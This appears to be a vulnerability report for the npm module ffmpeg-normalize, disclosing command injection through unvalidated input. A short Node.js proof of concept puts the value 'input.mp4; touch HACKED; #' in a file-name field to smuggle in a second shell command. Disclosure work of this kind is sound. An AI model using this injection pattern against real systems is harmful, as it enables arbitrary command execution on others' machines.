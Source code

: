 # Description

The `ffmpeg-normalize` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
const normalize = require('ffmpeg-normalize');
 
normalize({
    input: 'input.mp4; touch HACKED; #',
    output: 'output.mp4',
    loudness: {
        normalization: 'ebuR128',
        target: {input_i: -23}
    },
    verbose: false
}).then(normalized  => {}).catch(error => {console.log()});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i ffmpeg-normalize # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
